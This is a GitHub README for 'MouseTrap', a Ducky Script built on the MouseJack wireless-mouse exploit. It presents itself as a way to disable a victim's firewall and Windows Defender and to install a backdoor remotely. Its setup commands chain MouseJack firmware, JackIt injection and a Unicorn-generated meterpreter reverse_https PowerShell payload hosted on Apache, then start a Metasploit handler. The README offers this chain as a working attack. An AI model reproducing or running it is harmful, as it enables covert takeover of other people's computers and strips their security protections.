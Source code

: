 # MouseTrap
This is an implementation of Bastille's exploit [MouseJack](https://github.com/BastilleResearch/mousejack) using [JackIt's](https://github.com/insecurityofthings/jackit) exploit code. Full credit goes to them for discovering this issue and writing the libraries to work with the CrazyRadio PA dongle, as well as the implementation that I have created a Ducky Script for. For more information about the vulnerability, as well as vulnerable devices, check out their Github repositories!
## What is MouseTrap?
MouseTrap is a Ducky Script I have written for MouseJack that allows a user to disable firewalls and Windows Defender real-time protection, and install a backdoor remotely through a victim's wireless mouse. In roughly 10 seconds, you can have a meterpreter session running without firewall interruption.
## Installation
Tested on a clean Kali Linux VM with a Crazy Radio PA
### MouseJack
Flashes CrazyRadio PA dongle with firmware and sets up dependencies
```
sudo git clone https://github.com/BastilleResearch/mousejack.git
sudo apt-get install sdcc binutils python python-pip
sudo pip install -U pip
sudo pip install -U -I pyusb
sudo pip install -U platformio
cd mousejack
git submodule init
git submodule update
cd nrf-research-firmware
make
sudo make install

```
### JackIt
Used to scan for vulnerable devices and inject payload
```
sudo git clone https://github.com/insecurityofthings/jackit.git
cd jackit
pip install -e .
```
### Unicorn
Develops powershell payload and sets up Metasploit Meterpreter session
```
sudo git clone https://github.com/trustedsec/unicorn.git
cd unicorn
python unicorn.py windows/meterpreter/reverse_https <LHOST IP> <LPORT>
mv powershell_attack.txt /var/www/html/
service apache2 start
msfconsole -r unicorn.rc
```

